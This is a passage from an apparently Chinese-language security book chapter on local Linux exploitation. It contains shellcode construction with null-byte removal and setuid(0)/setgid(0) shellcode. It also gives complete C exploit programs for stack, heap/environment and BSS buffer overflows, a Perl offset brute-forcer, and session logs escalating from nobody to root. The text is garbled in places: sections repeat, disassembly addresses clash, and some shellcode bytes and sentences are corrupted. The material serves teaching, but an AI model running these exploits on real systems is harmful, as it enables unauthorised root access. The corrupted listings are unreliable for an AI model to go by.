    if (argc > 1) {
        func(argv[1]);
    }
    return 0;
}
```

### 列表 13.4 反汇编后的 main() 函数

```
(gdb) disassemble main
Dump of assembler code for function main:
0x04812e <main>:    push   %ebp
0x04812f <main + 1>:    mov    %esp, %ebp
0x048131 <main + 3>:    sub    $0x8, %esp
0x048134 <main + 6>:    mov    0x80482c8, 0xfffffff8(%ebp)
0x04813b <main + 13>:   mov    $0x0, %eax
0x048140 <main + 20>:   sub    $0x0, %esp
0x048143 <main + 25>:   mov    0xfffffff8(%ebp), %eax
0x048146 <main + 28>:   push   %eax
0x048147 <main + 32>:   pushl  0xfffffff8(%ebp)
0x04814a <main + 37>:   add    $0x10, %esp
0x04814d <main + 40>:   sub    $0xc, %esp
0x048150 <main + 43>:   push   $0x0
0x048152 <main + 45>:   call   0x0484bc <exit>
End of assembler dump.
```

这些函数在 `0x048147` 和 `0x048152` 地址处调用（相应的行已加粗显示）。

现在，反汇编 `execve()` 和 `exit()` 函数（列表 13.5 和 13.6）。

### 列表 13.5 反汇编后的 execve() 函数

```
(gdb) disassemble execve
Dump of assembler code for function execve:
0x0484cf0 <execve>:   push   %ebp
0x0484cf1 <execve + 1>:  mov    $0xc, %eax
0x0484cf6 <execve + 6>:   mov    %esp, %ebp
0x0484cf9 <execve + 9>:   test   %eax, %eax
0x0484cfa <execve + 10>:  push   %edi
0x0484cfb <execve + 11>:  push   %ebx
0x0484cfc <execve + 12>:  mov    0x8(%ebp), %edx
0x0484cff <execve + 15>:  je     0x0484d06 <execve + 22>
0x0484d01 <execve + 17>:  call   0x0
0x0484d06 <execve + 22>:  mov    0xc(%ebp), %ecx
0x0484d09 <execve + 25>:  mov    0x10(%ebp), %edx
0x0484d0c <execve + 28>:  push   %ebx
0x0484d0d <execve + 29>:  mov    %edi, %ebx
0x0484d0f <execve + 31>:  mov    $0xb, %eax
0x0484d14 <execve + 36>:  int    $0x80
0x0484d16 <execve + 38>:  pop    %ebx
0x0484d17 <execve + 39>:  mov    %eax, %ebx
0x0484d19 <execve + 41>:  cmp    $0xfffff000, %ebx
0x0484d1f <execve + 47>:  jbe    0x0484d2f <execve + 63>
0x0484d21 <execve + 49>:  call   0x0484b0 <__errno_location>
0x0484d26 <execve + 56>:  mov    %ebx, (%eax)
0x0484d28 <execve + 58>:  mov    $0xffffffff, %ebx
0x0484d2d <execve + 61>:  jmp    0x0484d31 <execve + 65>
0x0484d2f <execve + 63>:  mov    %ebx, %eax
0x0484d31 <execve + 65>:  pop    %ebx
0x0484d32 <execve + 66>:  pop    %edi
0x0484d33 <execve + 67>:  pop    %ebp
0x0484d34 <execve + 68>:  ret
End of assembler dump.
```

> **注释**：
> *   指向参数数组的指针存储在 `%ecx` 中。
> *   shellcode 的第一个参数设置为 `/bin/sh` 字符串的地址，数组设置为 `NULL`。
> *   指向程序环境变量数组的指针存储在 `%edi` 中。在 shellcode 中，它被设置为 `NULL`。
> *   指向长度字符串 `/bin/sh` 的指针存储在 `%ebx` 中。
> *   系统调用号存储在 `%eax` 中。
> *   调用中断 `0x80`。

### 列表 13.6 反汇编后的 exit() 函数

```
(gdb) disassemble exit
Dump of assembler code for function exit:
0x0804b4bc <exit>: push   %ebx
0x0804b4bd <exit + 1>: mov    %esp, %ebx
0x0804b4bf <exit + 3>: push   %esi
0x0804b4c0 <exit + 4>: push   %edi
0x0804b4c1 <exit + 5>: mov    0x8089cd0, %edx
0x0804b4c7 <exit + 11>: test   %edx, %edx
0x0804b4c9 <exit + 13>: mov    0x8(%eax), %esi
0x0804b4cc <exit + 16>: je     0x0804b53a <exit + 126>
0x0804b4ce <exit + 18>: mov    %edi, %ebx
0x0804b4d0 <exit + 20>: test   %ebx, %ebx
0x0804b4d2 <exit + 22>: je     0x0804b518 <exit + 92>
0x0804b4d4 <exit + 24>: lea    0x0(%eax), %esi
0x0804b4d7 <exit + 27>: mov    (%ecx), %eax
0x0804b4d9 <exit + 29>: dec    %eax
0x0804b4da <exit + 30>: mov    %eax, 0x4(%ecx)
0x0804b4dd <exit + 33>: shl    $0x0, %eax
0x0804b4e0 <exit + 36>: lea    (%ecx, 1), %eax
0x0804b4e3 <exit + 39>: mov    (%ecx), %ebx
0x0804b4e5 <exit + 41>: mov    0x8(%eax), %edx
0x0804b4e8 <exit + 44>: cmp    %ebx, %ebx
0x0804b4ea <exit + 46>: ja     0x0804b509 <exit + 77>
0x0804b4ec <exit + 48>: jmp    0x0804b520 <exit + 100>
End of assembler dump.
```


# 第 13 章：本地漏洞利用

## 反汇编分析

```
0x048129 <main + 13>:   mov    $0, %esp
0x0481f4 <main + 20>:   sub    $0, %esp
0x0481f9 <main + 25>:   mov    0xffffff8(%eb), %ax
0x0481fc <main + 28>:   push   %ax
0x048200 <main + 32>:   pushl  %0xffffff8(%eb)
0x048205 <main + 37>:   add    $10, %esp
0x048208 <main + 40>:   sub    $0c, %esp
0x04820b <main + 43>:   push   $0x0
0x04820e <main + 45>:   call   0x0484bc <exit>
End of assembler dump.
(gdb)
```

这些函数在 `0x048200` 和 `0x04820d` 地址处调用（相应的行已加粗显示）。

现在，反汇编 `execute()` 和 `exit()` 函数（列表 13.5 和 13.6）。

### 列表 13.5. 反汇编后的 execve() 函数

```
(gdb) disassemble execve
Dump of assembler code for function main:
0x0484cf0 <execve>:   push   %ebp
0x0484f1 <execve + 1>:  mov    $0c, %ax
0x048cf6 <execve + 6>:   mov    %esp, %ebp
0x048cf9 <execve + 9>:   test   %ax, %ax
0x048cfa <execve + 10>:  push   %edi
0x048cfb <execve + 11>:  push   %ebx
0x048cfc <execve + 12>:  mov    %0x8(%ebp), %edx
0x048fff <execve + 15>:  je     0x048cc06 <_execve + 22>
0x048cc01 <execve + 17>: call   0x0
```

> ; 指向参数数组的指针存储在 `%ecx` 中。
> ; shellcode 的第一个参数设置为 `/bin/sh` 字符串的地址，数组设置为 NULL。

```assembly
0x048cc0d <_execve>: mov    $0xc(%ebp), %ecx
```

> ; 指向程序环境变量数组的指针存储在 `edi` 中。在 shellcode 中，它被设置为 NULL。

```assembly
0x048cc09 <_execve + 25>: mov    $010(%ebp), %edx
```

```assembly
0x048cc0c <_execve + 28>: push   %ebx
```

> ; 指向长度字符串 - `/bin/sh` 的指针存储在 `%ebx` 中。

```assembly
0x804cc0d <_execve + 29>: mov %edi, %ebx
; 系统调用号存储在 %eax 中；
0x804cc0f <_execve + 31>: mov $0xb, %eax
; 调用中断 80;
0x804cc14 <_execve + 36>: int $080
```

```assembly
0x804cc16 <_execve + 38>: pop %ebx
0x804cc17 <_execve + 39>: mov %eax, %ebx
0x804cc19 <_execve + 41>: cmp $0xffff000, %ebx
0x804cc14 <_execve + 47>: mov 0x804cc2f < -63>
0x804cc21 <_execve + 49>: neq %ebx
0x804cc23 <_execve + 51>: call 0x80484b0 <_errno_location>
0x804cc26 <_execve + 56>: mov %ebx, (%eax)
0x804cc2a <_execve + 63>: mov $0xffffffff, %ebx
0x804cc31 <_execve + 65>: pop %ebx
0x804cc32 <_execve + 66>: pop %edi
0x804cc33 <_execve + 67>: ret
0x804cc34 <_execve + 68>: 
End of assembler dump.
(gdb)
```

### 列表 13.6. 反汇编后的 exit() 函数

```
(gdb) disassemble exit
Dump of assembler code for function exit:
0x804b4bc <exit>: push %ebx
0x804b4bd <exit + 1>: mov %esp, %ebx
0x804b4cf <exit + 3>: push %esi
0x804b4d <exit + 4>: push %ebx
0x804b4e <exit + 5>: mov 0x8089cd0, %edx
0x804b47 <exit + 11>: test %edx, %edx
0x804b48 <exit + 13>: mov %8(%eax), %esi
0x804b4c <exit + 16>: je 0x804853a <exit + 126>
0x804b4e <exit + 18>: mov %edi, %ebx
0x804b4d <exit + 23>: test %ebx, %ebx
0x804b4f <exit + 25>: je 0x8048518 <exit + 92>
0x804b4d <exit + 29>: lea %0(%eax), %esi
0x804b4e <exit + 32>: mov (%ecx), %eax
0x804b4f <exit + 35>: dec %eax
0x804b40 <exit + 36>: mov %eax, 4(%ecx)
0x804b43 <exit + 39>: shl $0, %eax
0x804b4e <exit + 42>: lea (%ecx, 1), %eax
0x804b4a <exit + 45>: mov (%ecx), %ebx
0x804b4c <exit + 48>: mov 0x8(%eax), %edx
0x804b4f <exit + 51>: cmp %ebx, %ebx
0x804b52 <exit + 54>: ja 0x8048509 <exit>
0x804b54 <exit + 56>: jmp 0x804820
```

## Shellcode 开发与零字节消除

但在这里你会遇到一个问题。你将 shellcode 传递给 `strcpy` 函数，该函数会处理字符串直到遇到 NULL 字符（空字符）。因此，shellcode 不能包含任何零。你可以通过将 `mov $0x00, 0xc($esi)` 指令替换为以下两条指令来消除零：

```
xor %eax, %eax
mov %eax, 0x0c($esi)
```

然而，shellcode 中的零只有在将其转换为十六进制格式后才能被检测到。例如，来看以下指令：

```
0x804cbcd6 _exit + 6: mov $0xl, %eax
```

在十六进制表示中，它看起来如下：

```
b8 01 00 00 00 mov $0l, %eax
```

为了消除所有的零，使用了各种技巧，例如先初始化为零然后加 1，如如下代码片段所示：

```
xor %ebx, %ebx ; %ebx = 0
mov %ebx, %eax ; %eax = 0
inc %esi ; %eax = 1
```

如果你还记得，shellcode 中的 `/bin/sh` 字符串包含一个 0 字节。用以下指令替换掉这个 0 字节：

```c
/* movb works with only 1 byte. */
movb %eax, 0x7($esi)
```

现在，你可以编写 shellcode 的初步版本（列表 13.10）。

### 列表 13.10. 初步 shellcode

```c
/* shellcode.2 c */
int main()
{
    asm("jmp line")

address:
pop %esi
mov %eax, 0x8($esi)
xor %eax, %eax
mov %eax, 0xc($esi)
movb %eax, 0x7($esi)
movb $0x0, %al
mov %esi, %ebx
leal 0x8($esi), %ecx
leal 0xc($esi), %edx
int $0x80

xnor %ebx, %ebx
mov %ebx, %eax
inc %eax
int $0x80
line:
    call address
    .string "/bin/sh"
)
```

使用以下命令编译源码：

```bash
# gcc shellcode2.c -o shellcode2
```

然后使用 `objdump` 实用工具检查其十六进制转储中是否存在 0 字节：

```bash
# objdump -d ./shellcode2
```

列表 13.11 显示了此处感兴趣的代码部分。

### 列表 13.11. shellcode 的十六进制值

| 地址 | 机器码 | 指令 |
| :--- | :--- | :--- |
| 0048430 <main>: | 55 | push %ebp |
| 0048431 | 89 e5 | mov %esp,%ebp |
| 0048433 | eb 1f | jmp 0048454 <link> |
| 0048435 <address>: | 5e | pop %esi |
| 0048436 | 89 76 08 | mov %esi, 0x8(%esi) |
| 0048439 | 31 c0 | xor %eax,%eax |
| 0048440 | 89 46 0c | mov %eax,0xcc(%esi) |
| 004843e | 88 46 07 | mov %al,0x7(%esi) |
| 0048441 | b0 0b | mov $0xb,%al |
| 0048443 | 89 f3 | mov %esi,%ebx |
| 0048445 | 84 4e 08 | lea 0xf(%esi),ecx |
| 0048448 | 83 96 0c | lea 0xcc(%esi),edx |
| 004844b | cd 80 | int $0x80 |
| 004844d | 31 d8 | xor %ebx,%ebx |
| 004844f | 89 98 | mov %ebx,%eax |
| 0048450 | 40 | inc %eax |
| 0048451 | cd 80 | int $0x80 |
| 0048454 <link>: | e8 dc ff ff ff | call 0048435 <address> |
| 004845a | 2f | das |
| 004845a | 62 69 6e | mov %ebx,0x6(%ecx) |
| 004845d | 2f | das |
| 004845e | 73 68 | ja 00484c <main> |
| 0048460 | 00 5d c3 | add $bl,ffff(%ebx) |

从地址 `004859` 开始的指令实际上是十六进制表示的 `/bin/sh` 字符串的 ASCII 代码：

```
/bin/sh
2f 69 6e 2f 73 68
```

## 第三部分：利用

如你所示，代码没有零，因此你可以开始测试。然而，直接从命令行启动会导致核心转储（core dump），因为 shellcode 运行在只读段中。这种限制可以通过列表 13.12 中的 shellcode 来绕过。

### 列表 13.12. 用于测试 shellcode 的程序

```c
char shellcode[] = "\x69\xeb\x5e\x76\x08\x31\x00\x88\x46\x07\x46\x0c\xb0\x0b\x89\xf3\x8d\xe4\x08\x56\x0c\xcd\x80\x31\xdb\x89\xd4\xcd\xff\xff/bin/sh";
```

运行此程序（先编译）将在屏幕上放置一个 shell，并告诉你 shellcode 无错误。

```bash
# gcc shellcode3.c -o shellcode3
# ./shell3
```

如果漏洞程序设置了 SUID 位，大多数 shellcode 包含了 `setuid(0)` 和 `setgid(0)` 调用。这些调用设置了 root 权限：uid = 0(root) 和 gid = 0(root)。在十六进制表示中，它们如列表 13.13 和 13.14 所示。

### 列表 13.13. setuid

| 字节 | 指令 |
| :--- | :--- |
| `\x31\xc0` | xor %eax,%eax |
| `\x31\xdb` | xor %ebx,%ebx |
| `\xb0\x17` | movb $0x17, %al |
| `\xcd\x80` | int $0x80 |

### 列表 13.14. setgid 代码

| 字节 | 指令 |
| :--- | :--- |
| `\x31\xc0` | xor %eax,%eax |
| `\x31\xdb` | xor %ebx,%ebx |
| `\xb0\x2e` | movb $0x2e, %al |
| `\xcd\x80` | int $0x80 |

在 shellcode 的开头添加这些指令，你可以获得一个完整的 shellcode，它不仅能启动 shell，还将用户和组标识设置为零。

shellcode 的最终版本见列表 13.15。注意，如果目标程序没有设置 root SUID 位，`setuid(0)` 和 `setgid(0)` 调用将会失败，但不影响 shellcode 的后续执行。

### 列表 13.15. 最终 shellcode

```c
char shellcode[] = "\x31\xc0\x31\xdb\xb0\x17\xcd\x80" /* setuid(0) */
"\x31\xc0\x31\xdb\xb0\x2e\xcd\x80" /* setgid(0) */
"\xe8\xf1\x80\x89\x76\x08\x31\xc0"
"\x88\x46\x07\x89\x46\x0c\xb0\x0c"
"\x89\xf3\x84\x4e\x08\x56\x0c"
"\xcd\x80\x31\xdb\xb8\xd8\x40\xcd"
"\xb0\x08\xe8\xdc\xff\xff"
"/bin/sh";
```

## 13.1.4. 构建利用

现在你可以开始实际利用。Linux 漏洞有两种向目标传递 shellcode 的主要方法：

- 使用漏洞缓冲区
- 使用环境变量

我考虑了这两种方法，以及第三种涉及在堆中放置 shellcode 的非标准方法。

### 13.1.4.1. 使用漏洞缓冲区传递 shellcode

如前所述，漏洞函数的返回地址必须被 shellcode 的地址覆盖。最流行的方法是将 shellcode 传递给 `strcpy` 函数，该函数处理字符串直到遇到 NULL 字符。因此，shellcode 不能包含任何零。你可以通过将 `mov $0x00, 0xc($esi)` 指令替换为以下两条指令来消除零：

```
xor %eax, %eax
mov %eax, 0x0c($esi)
```

然而，shellcode 中的零只有在将其转换为十六进制格式后才能被检测到。例如，来看以下指令：

```
0x804cbcd6 _exit + 6: mov $0xl, %eax
```

在十六进制表示中，它看起来如下：

```
b8 01 00 00 00 mov $0l, %eax
```

为了消除所有的零，使用了各种技巧，例如先初始化为零然后加 1，如如下代码片段所示：

```
xor %ebx, %ebx ; %ebx = 0
mov %ebx, %eax ; %eax = 0
inc %esi ; %eax = 1
```

如果你还记得，shellcode 中的 `/bin/sh` 字符串包含一个 0 字节。用以下指令替换掉这个 0 字节：

```c
/* movb works with only 1 byte. */
movb %eax, 0x7($esi)
```

现在，你可以编写 shellcode 的初步版本（列表 13.10）。

### 列表 13.10. 初步 shellcode

```c
/* shellcode.2 c */
int main()
{
    asm("jmp line")

address:
pop %esi
mov %eax, 0x8($esi)
xor %eax, %eax
mov %eax, 0xc($esi)
movb %eax, 0x7($esi)
movb $0x0, %al
mov %esi, %ebx
leal 0x8($esi), %ecx
leal 0xc($esi), %edx
int $0x80

xnor %ebx, %ebx
mov %ebx, %eax
inc %eax
int $0x80
line:
    call address
    .string "/bin/sh"
)
```

在这里，偏移量（offset）在命令行参数中手动指定：

```c
offset = atoi(argv[1]);
```


在运气不错的情况下，这将允许你以很高的确定性击中 shellcode 的开头。稍后，我将向你展示如何自动化确定返回地址的过程。

现在，检查一下漏洞利用是如何工作的。为此，请使用 `chmod u+s stack_vuln` 命令设置漏洞程序 `stack_vuln` 的程序的 UID，然后使用 `nobody` 命令将权限设置为 `nobody`：

```
gcc stack_vuln -o stack_vuln
# gcc expl_stack1.c -o expl_stack1
# chmod ugs stack_vuln
# ls -la stack_vuln
-rwxr-sr-x 1 root root 13803 Apr 06 03:32 stack_vuln
# su nobody
sh-2.04 id
uid=99(nobody) gid=99(nobody) groups=99(nobody)
sh-2.04 ~ ./expl_stack1 0
The stack pointer is: 0xbfff978
The offset from ESP: 0xbffff97
The return address is: 0
OK
sh-2.04 id
uid=0(root) gid=0(root) groups=99(nobody)
sh-2.04
```

如你所见，如果偏移量证明是正确的，我将非常高兴；否则，我将花费很长时间尝试寻找所需的值。为了确定必要的溢出利用，可以设计一个简单的 shell 脚本或 Perl 程序。13.17 显示了用 Perl 编写的此类程序的源代码。很多时候，暴力破解偏移量选择器被直接构建在漏洞利用程序中。带有内置暴力破解偏移量选择器的漏洞利用将在第 13.1.4 节中讨论。

### 13.17. 使用易变缓冲区解析 shellcode (expl_stack1.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys.h>

char shellcode[] = 
"\x31\x31\x31\xdb\x17\xcd\x80\x80\n\x31\x30\x31\x31\xb0\x2e\xcd\x80\x80\n\x6e\x76\x61\x55\x89\x76\x08\x31\x30\x00\n\x88\x6a\x06\x07\x89\x46\x00\xb0\x0b\n\x89\xf3\x89\x7d\x64\x8d\x56\x0c\n\x89\xc4\x31\x31\x31\xb8\x89\xd8\x40\xcd\x80\n\xe8\xdc\xff\xff\xcd"
"/bin/sh";
```

```c
/* 用于确定栈顶的函数 */
unsigned long get_sp(void)
{
    __asm("movl %esp, %eax");
}
```

```c
int main(int argc, char *argv[]) {
    int i, offset;
    long esp, ret, *addr_ptr;
    char *ptr, buf[200];

    if (argc < 2) {
        fprintf(stderr, "Usage: %s <offset>\n", argv[0]);
        exit(-1);
    }

    /* 从命令行参数中获取偏移量 */
    offset = atol(argv[1]);

    /* 确定栈顶 */
    esp = get_sp();

    /* 计算返回地址 */
    ret = esp - offset;

    printf("The stack pointer (ESP) is: 0x%x\n", esp);
    printf("The offset from ESP is: 0x%x\n", offset);
    printf("The return address is: 0x%x\n", ret);

    ptr = buf;
    addr_ptr = (long *)ptr;

    /* 用返回地址填充缓冲区 */
    for(i = 0; i < 200; i += 4)
        (*addr_ptr++) = ret;

    /* 用 NOP 指令 / NOP 滑块填充缓冲区的前 50 字节 */
    for(i = 0; i < 50; i++)
        buf[i] = '\x90';

    /* 在 NOP 指令之后放置 shellcode */
    for(i = 0; i < strlen(shellcode); i++)
        (*ptr++) = shellcode[i];

    /* 在最后一个缓冲区单元格中放入零 */
    buf[200] - 1] = '\0';

    /* 使用准备好的缓冲区作为参数运行程序 */
    execl("./stack_vuln", "stack_vuln", buf, 0);

    return 0;
}
```

### 13.18. 偏移量选择器 (offset.pl)

```perl
#!/usr/bin/perl
for ($i = 1; $i < 15; $i++) {
    print "\n";
    system("./expl_stack1 $i");
}
```

### 13.4.2. 使用环境变量传递 shellcode

13.17 显示了用 Perl 编写的此类程序的。。很多暴力暴力暴力破解偏移量选择器被直接在漏洞漏洞利用中中。内置暴力破解偏移量选择器的漏洞利用将在第 13.1.4 节中讨论。

### 13.4.3. 使用堆传递 shellcode

13.20 显示了漏洞利用的第一个版本，它将 shellcode 放在堆中，并用指向 shellcode 的返回地址溢出缓冲区。必须在命令行中指定偏移量（偏移量值 1000 对我有效），因此最好使用 13.2 中的暴力暴力破解技术，在此已将 `expl_stack1` 名称重命名为 `expl_stack3`。

## 206 第三部分：漏洞利用

```c
/* Clearing the buffer in the stack */
bzero(buf, sizeof(buf));

/* Filling the entire buffer with return addresses */
for(i = 0; i <= 500; i += 4)
  (long *)(ptr + i) = ret;

/* Running the vulnerable program with the prepared overflowing buffer
as the argument and passing the shellcode in the heap as an
environment variable */
av[0] = "/stack_vuln";
av[1] = buf;
av[2] = 0;
ev[0] = egg;
ev[1] = 0;
execve(*av, av, ev);
return 0;
```

## 13.1.4.4. 使用内置暴力破解偏移选择器的漏洞利用

在大多数情况下，确定漏洞偏移量最简单的方法是使用一个独立的暴力破解偏移选择器，例如列表 13.18 中的工具。但在没有安装 Perl 或不允许执行脚本的系统上，这种方法不起作用。在这种情况下，偏移选择器被直接构建在漏洞程序中。列表 13.21 展示了此类漏洞利用的示例。基本上，这是在列表 13.20 的漏洞利用基础上增加了偏移选择器。该偏移选择器的算法非常简单：在每次循环迭代中，创建一个子线程，在线程中执行带有溢出缓冲漏洞程序，并等待父线程结果。标准的 `WIFEXITED()` 宏分析结果，判断线程是因为接收信号异常终止，还是正常终止（使用 `exit()` 函数或 `main()` 函数的 `return` 运算符）。在后者的情况下，循环终止，假设 shellcode 执行成功并获得了 root 权限。然而，情况并非总是如此；因此循环可能需要通过另一个步骤运行。有时，线程不返回结果导致循环挂起；在这种情况下，使用 `<Ctrl+C>` 组合键将其终止。偏移量通过命令行传递给漏洞利用程序。该程序一直执行，直到偏移量大于 3,000 或你在代码中设置的任何限制值。漏洞利用操作的其他部分应可以通过代码中的注释得到明确。

列表 13.21. 使用内置暴力破解偏移选择器的漏洞利用 (expl_brute.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>

char shellcode[] = {
  "\x31\xc0\x31\xdb\x00\x17\xcd\x80"
  "\xb0\x72\xc0\xcd\x80\xeb\x15\xb5\x31"
  "\xcd\xe8\x43\x07\x89\x5b\x08\x89"
  "\x43\xcd\x88\x48\x04\x08\x31\xd2\xb0"
  "\x0b\x08\xcd\x80\xe8\x66\xff\xff\xff"
  "/bin/sh";
};

unsigned long get_sp(void) {
  __asm("movl %esp, %eax");
}

int main(int argc, char *argv[]) {
  char buf[500];
  char *egg, *ptr;
  char *av[3], *ev[2];
  pid_t pid;
  int i, step, offset = 0;
  long esp, ret;
  int status;

  if (argc < 2) {
    fprintf(stderr, "Usage: %s <step>\n", argv[0]);
    exit(-1);
  }

  step = atoi(argv[1]);
  esp = get_sp();
  ret = esp;

  egg = (char *)malloc(1000);
  memset(egg, 4, 1000 - 1 - strlen(shellcode));
  sprintf(egg + 1000 - 1 - strlen(shellcode), "%s", shellcode);

  ptr = buf;
  bzero(buf, sizeof(buf));

  /* Looping until the offset becomes greater than 3,000 */
  while (offset < 3000) {
    /* Spawning a child thread */
    if ((pid = fork()) == 0) {
      /* Filling the entire buffer with the new return addresses */
      for (i = 0; i <= 500; i += 4) {
        *(long *) (ptr + i) = ret;
      }

      av[0] = "/stack_vuln";
      av[1] = buf;
      av[2] = 0;
      ev[0] = egg;
      ev[1] = 0;
      execve(*av, av, ev);
      exit(status);
    }

    /* Waiting for the child thread to finish */
    wait(&status);

    /* Checking the returned value. If the value returned by the WIFEXITED() macro is not 0, the child thread terminated normally; that is, the shellcode probably executed successfully. If the returned value is != 0, continue-looping through possible offsets. */
    if (WIFEXITED(status) != 0) {
      fprintf(stderr, "The end: %0x\n", ret);
      exit(0);
    } else {
      ret += offset;
      offset += step;
      fprintf(stderr, "Trying offset %d, addr: %0x\n", offset, ret);
    }
  }

  return 0;
}
```

## 2. BSS 缓冲区溢出

基于 BSS 区的溢出与栈溢出显著不同。主要区别在于 BSS 中不存储返回地址，因此无法覆盖它们。但有时程序会在 BSS 中存储指针；覆盖这些指针的效果与覆盖返回地址类似。请考虑一个漏洞程序示例（列表 13.22）。

**列表 13.22. 漏洞程序 (bss_vuln.c)**

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void show(char *arg) {
  printf("Buffer: %s\n", arg);
}

int main(int argc, char *argv[]) {
    static char buf[100];
    static void (*func_ptr)(char *arg);

    if (argc < 2) {
      printf("Usage: %s data\n", argv[0]);
      exit(1);
    }

    func_ptr = show;
    strncpy(buf, argv[1], strlen(argv[1]));
    func_ptr(buf);
    return 0;
}
```

在程序中，未初始化的缓冲区存储在 BSS 段。在该程序中，`strcpy` 不检查缓冲区的大小。这使得向函数传递任何长度的字符串成为可能，从而覆盖指针如下：

```bash
# gcc bss_vuln.c -o bss_vuln
# ./bss_vuln perl -e 'print "A"*100'
# ./bss_vuln perl -e 'print "A"*101'
```

可以看出程序在第 101 个字节被覆盖后才会输出错误，这意味着函数指针位于缓冲区之后，具体位于第 101、102、103 和 104 字节处。关键点在于漏洞程序中，静态缓冲区声明在静态指针之前；否则你无法覆盖该指针。因此，漏洞利用必须溢出缓冲区并用 shellcode 覆盖函数指针。在经典的栈溢出中，可以使用 `ESP` 寄存器，因为它指向栈顶；但在处理 BSS 段时，确定返回地址更为困难。此外，分配给缓冲区的 100 字节可能不足以存储 shellcode。因此，最好的解决方案是将 shellcode 放入环境变量并计算其地址，这将成为返回地址。列表 13.23 显示了实现此方法的源码。

## 列表 13.23. BSS 缓冲区利用 (expl_bss.c)

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char *shellcode[] = {
  "\x31\xc0", /* xor %eax, %eax */
  "\x31\bd", /* xor %ebx, %ebx */
  "\xb0\x07", /* mov $0x07, %al */
  "\xcd\x80", /* int $0 */
  "\x31\xc7", /* xor %eax, %ecx */
  "\x31\bd", /* xor %ebx, %ebx */
  "\xb0\x2e", /* mov $0x2e, %al */
  "\xcd\x80", /* int $0 */
  "\x31\xc7", /* xor %eax, %ecx */
  "\x50", /* push %eax */
  "\x68\x27\x23\x72", /* push $0x72732327 */
  "\x68\x62\x69\x6e\x72", /* push $0x726e6962 */
  "\xb5\xeeb", /* mov %ebp, %esp */
  "\x50", /* push %eax */
  "\x53", /* push %ebx */
  "\x88\xe7", /* mov %esp, %ecx */
  "\x75", /* cltd */
  "\xb0\x0b", /* mov $0x0b, %al */
  "\xcd\x80" /* int $0 */
};

int main() {
  char *env[] = {shellcode, NULL};
  char buf[104];
  unsigned long ret;
  unsigned long *ptr;
  int i;

  ptr = (unsigned long *)(buf);
  ret = 0x00000000 - strlen("./bss_vuln") - 6;

  for (i = 0; i < 10; i += 4) (*ptr+i) = ret;

  return execl("./bss_vuln", "bss_vuln", buf, NULL, env);
}
```

以下是检查漏洞利用的操作：

```bash
```


# gcc bss_vuln.c -o bss_vuln

# gcc expl_bss.c -o expl_bss

# chmod u+s .bss_vuln

# rwx-s -x root 14170 Apr 10 01:59 :.bss_vuln

# su nobody

sh-2.04#$ id

uid=99(nobody) gid=99(nobody) groups=99(nobody)

sh-2.04#$ ./expl_bss

sh-2.04#$ id

uid=0(root) gid=0(root) groups=99(nobody)

---

# 第 13 章：本地漏洞 211

漏洞程序和利用程序的源代码可以在附带 CD-ROM 的 `/PART III/Chapter 13/13.2` 目录下找到。

## 13.3. 格式字符串漏洞

格式字符串漏洞首次于 2000 年 6 月 22 日向公众公布，当时一个绰号为 tf8 的人在 Bugtraq 上发布了其源代码。该漏洞利用了 wu-ftpd 2.6.0 FTP 守护进程中的格式字符串错误，执行 shellcode 以打开具有 root 权限的命令 shell。有关该漏洞和利用程序本身的信息可以在 SecurityFocus 网站（http://www.securityfocus.com/bid/1387）找到。

在利用程序的正文中有这样一条注释：极其私版本。勿分发：1999-10-15。

如你所见，该漏洞创建于 1999 年 10 月，这意味着在公众意识到之前，黑客已经使用该漏洞了近九个月。只有当关于该漏洞的不同描述开始出现时，软件开发人员和专家才开始关注它，而基于格式字符串错误的新漏洞数量呈指数级增长。以下是几个具有格式字符串错误且已编写利用程序的列表：lpr, ftpd, popftpd, telnetd, Linux rpc, PHP 3 版本和 4 版本，ypbind，不同版本的 lib libc，BSD chpass 等。

### 13.3.1. 格式字符串基础

格式字符串用于更改输入或输出信息格式的函数。以下是其中一些函数的列表：

```c
printf(const char *format, ...);
fprintf(FILE *stream, const char *format, ...);
sprintf(const char *str, const char *format, ...);
snprintf(const char *str, size_t size, const char *format, ...);
vprintf(const char *format, va_list ap);
vfprintf(FILE *stream, const char *format, va_list ap);
scanf(const char *format, ...);
fscanf(FILE *stream, const char *format, ...);
syslog(int priority, const char *format, ...);
```

如你所见，有很多函数可以转换格式；这些函数中的大部分都属于美国国家标准协会（ANSI）C 标准。关于每个函数的详细信息可以在相应的 man 手册中学习。

列出的函数中最流行的是 `printf()`，它输出格式化信息。这里是该函数的示例：

```c
printf("string = %s, int = %d\n", str, i);
```

在前面的示例中，“string = %s, int = %d\n”是格式字符串，而 `str` 和 `i` 是函数的参数。


# 第三部分：利用程序

格式字符串可以包含三类型的对象：

- 普通字符，被复制到输出流中
- 控制序列，也称为转义序列（见表 13.1）
- 格式说明符，始终以 `%` 字符开头，并按顺序转换并放置参数（见表 13.2）

**表 13.1. 控制序列**

| 控制序列 | 说明 |
| --- | --- |
| `\n` | 换行或行符 |
| `\t` | 水平制表符 |
| `\v` | 垂直制表符 |
| `\b` | 退格 |
| `\r` | 回车 |
| `\f` | 换页 |
| `\a` | 听觉警报，铃声 |
| `\'` | 单引号 |
| `\"` | 双引号 |
| `\\` | 反斜杠 |
| `\ooo` | 八进制数 |
| `\xhh` | 十六进制数 |

**表 13.2. 格式说明符**

| 说明符 | 参数类型 (printf) | 参数类型 (scanf) | 输入或输出数据 |
| --- | --- | --- | --- |
| `d` or `i` | `int` | `int *` | 十进制整数 |
| `o` | `int` | `int *` | 八进制整数 |
| `x` or `X` | `unsigned int` | `unsigned int *` | 十六进制整数 |
| `u` | `unsigned int` | `unsigned int *` | 十进制整数 |
| `c` | `int` or `unsigned char` | `char *` | 单个字符 |
| `s` | `char *` | `char *` | 输出字符串字符，直到遇到第一个 `\0` 序列 |

# 第 13 章：本地漏洞 213

**表 13.2 续**

| 说明符 | 参数类型 (printf) | 参数类型 (scanf) | 输入或输出数据 |
| --- | --- | --- | --- |
| `f` | `double` | `float *` | 格式为 `[-]mmm.dddddd` 的带符号浮点数，其中 `d` 由精度指定（默认精度为六位） |
| `e` or `E` | `double` | `float *` | 格式为 `[-]m.dddddde[+-]xx` 的带符号浮点数，其中 `d` 由精度指定（默认精度为六位） |
